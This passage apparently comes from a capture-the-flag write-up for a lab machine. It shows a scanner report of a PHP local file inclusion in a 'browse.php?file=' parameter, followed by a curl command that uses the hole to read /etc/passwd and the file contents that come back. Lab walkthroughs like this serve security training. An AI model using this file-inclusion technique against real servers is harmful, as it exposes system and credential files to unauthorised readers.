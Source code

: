 #[1] Possible PHP-File Inclusion #

########################################################

#::REQUEST #

# [URL] http://10.10.10.84/browse.php?file= #

# [HEAD SENT] #

#::VULN INFO #

# [GET PARAM] file #

# [PATH] /usr/local/www/apache24/data #

# [OS] Unix #

# [TYPE] Absolute Clean #

# [TRUNCATION] No Need. It's clean. #

# [READABLE FILES] #

# [0] /etc/passwd #

########################################################</pre>

Got access to the /etc/passwd file

<pre>[root:~/Desktop/poison]# curl -s http://10.10.10.84/browse.php\?file\=/etc/passwd

root:*:0:0:Charlie &:/root:/bin/csh

toor:*:0:0:Bourne-again Superuser:/root:

daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin

operator:*:2:5:System &:/:/usr/sbin/nologin

bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin

tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin

kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin

games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
